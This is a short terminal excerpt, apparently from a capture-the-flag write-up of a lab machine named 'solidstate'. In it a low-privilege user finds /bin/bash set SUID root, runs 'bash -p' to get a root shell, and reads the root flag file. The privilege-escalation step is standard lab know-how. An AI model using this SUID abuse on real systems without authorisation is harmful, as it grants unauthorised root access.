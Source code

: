 ```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ bash -p
bash-4.4# whoami
root
bash-4.4# cd /root/
bash-4.4# cat root.txt 
1a0cd964c524d89ebe2a7d630f938518
```


